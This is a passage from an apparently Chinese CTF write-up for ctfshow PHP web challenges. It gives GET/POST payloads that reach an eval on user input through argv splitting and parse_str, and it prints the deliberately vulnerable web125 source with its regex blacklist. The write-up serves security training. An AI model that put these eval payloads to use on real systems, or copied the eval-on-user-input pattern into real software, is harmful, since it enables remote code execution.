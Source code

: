 ```
GET:$fl0g=flag_give_me;
POST:CTF_SHOW=1&CTF[SHOW.COM=1&fun=eval($a[0])
```

parse_str将一个字符串解析成多个变量

argv会根据＋号判断元素个数

```
http://127.0.0.1/phplab/argv.php?1+fl0g+flag_give_me
输出
array(3) {
  [0]=>
  string(1) "1"
  [1]=>
  string(4) "fl0g"
  [2]=>
  string(12) "flag_give_me"
}
```

姿势二：这里就是将`flag_give_me`赋值给`fl0g`

```
GET:1+fl0g=flag_give_me
POST:CTF_SHOW=1&CTF[SHOW.COM=1&fun=parse_str($a[1])
```

姿势三：直接输出flag变量

```
POST:CTF_SHOW=1&CTF[SHOW.COM=1&fun=echo $flag
```

## web125(highlight_file)

```php
<?php
highlight_file(__FILE__);
include("flag.php");
$a=$_SERVER['argv'];
$c=$_POST['fun'];
if(isset($_POST['CTF_SHOW'])&&isset($_POST['CTF_SHOW.COM'])&&!isset($_GET['fl0g'])){
    if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\%|\^|\*|\-|\+|\=|\{|\}|\"|\'|\,|\.|\;|\?|flag|GLOBALS|echo|var_dump|print/i", $c)&&$c<=16){
         eval("$c".";");
         if($fl0g==="flag_give_me"){
             echo $flag;
         }
    }
}
?> 
```

多过滤了几个函数
